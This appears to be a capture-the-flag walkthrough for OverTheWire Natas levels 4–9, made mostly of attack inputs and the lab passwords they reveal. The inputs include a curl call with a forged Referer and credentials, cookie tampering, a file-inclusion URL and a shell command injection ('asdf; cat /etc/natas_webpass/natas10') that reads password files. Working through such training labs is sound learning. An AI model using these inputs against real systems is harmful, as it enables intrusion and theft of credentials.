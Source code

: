 # natas5

 Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"

curl --user natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ -H "Referer:http://natas5.natas.labs.overthewire.org/" http://natas4.natas.labs.overthewire.org/

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

# natas5

tamper data: login=1

 Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

# natas6

http://natas6.natas.labs.overthewire.org/includes/secret.inc

<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>

 Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

# natas7

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

# natas8

Crear un script que invierta los pasos:

<?php
$encodedSecret = "3d3d516343746d4d6d6c315669563362";
print base64_decode(strrev(hex2bin($encodedSecret))) . "\n";
?>

 Access granted. The password for natas9 is W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

# natas9

En el cuadro de búsqueda:
asdf; cat /etc/natas_webpass/natas10

Output:

nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

